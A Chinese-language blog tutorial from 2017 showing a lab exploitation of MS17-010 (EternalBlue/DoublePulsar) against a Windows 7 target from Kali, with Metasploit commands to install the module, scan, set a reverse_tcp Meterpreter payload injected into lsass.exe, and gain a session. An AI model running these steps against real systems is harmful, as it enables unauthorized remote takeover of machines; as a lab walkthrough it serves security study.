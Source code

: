 ```yaml
---
title: "MS-17-010 實作"
date: 2017-06-27
tags: ["kali"]
categories: ["security"]
description: "MS-17-010 實作"
draft: false
---
```


### 1. 環境
- Kali 64bit（攻擊機）
- windows7 SP1 64bit（靶機）

### 2. 利用的模組

github：https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit

### 3. 開始

利用的模組載入 `Kali` 如下：

```shell
git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit.git
#把 deps目錄 And eternalblue_doublepulsar.rb 作複製動做，預設是沒有此模組。
cp -r Eternalblue-Doublepulsar-Metasploit/deps/ \
/usr/share/metasploit-framework/modules/exploits/windows/smb/ \

cp -r Eternalblue-Doublepulsar-Metasploit/eternalblue_doublepulsar.rb \ 
/usr/share/metasploit-framework/modules/exploits/windows/smb/ 

cp -r Eternalblue-Doublepulsar-Metasploit/eternalblue_doublepulsar.rb \
/usr/share/metasploit-framework/modules/auxiliary/scanner/msf/
```

### 4. 開啟 msfconsole

![](https://i.imgur.com/XvzSDVj.png)

### 5. ms17-010 漏洞檢查

```shell
use auxiliary/scanner/smb/smb_ms17_010 #接著如下圖作
show options
set RHOSTS IP # 設定靶機的IP
```
![](https://i.imgur.com/IvV83ld.png)

### 6. Exploit ms17-010

![](https://i.imgur.com/G2AxUeP.png)

由於沒設定靶機 IP，以下進行設置

```shell
set RHOSTS IP # 設定靶機的IP 
#設定 PAYLOAD（因為是 64 bit，所以需要設定）如果是 windows/meterpreter/reverse_tcp，會獲取不到 Session。
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit #建立不起 Session
```

![](https://i.imgur.com/et5e1Ey.png)

```shell
show options #檢查
set PROCESSINJECT lsass.exe #因為是 64 bit 所以要更改成這個
```

![](https://i.imgur.com/XBKeoV2.png)

```shell
exploit # 在一次，這次成功進去如下
```

![](https://i.imgur.com/NJWzFpV.png)

接著，就可操控靶機了


如果發現 `exploit` 出現 `wine` 的問題，請如下解決看看。

```shell
dpkg –add-architecture i386 && apt-get update && apt-get install wine32
```

## 參考資料：

- [securityonline](https://securityonline.info/exploit-windows-machine-ms-17-10-easy-like-ms08_067/)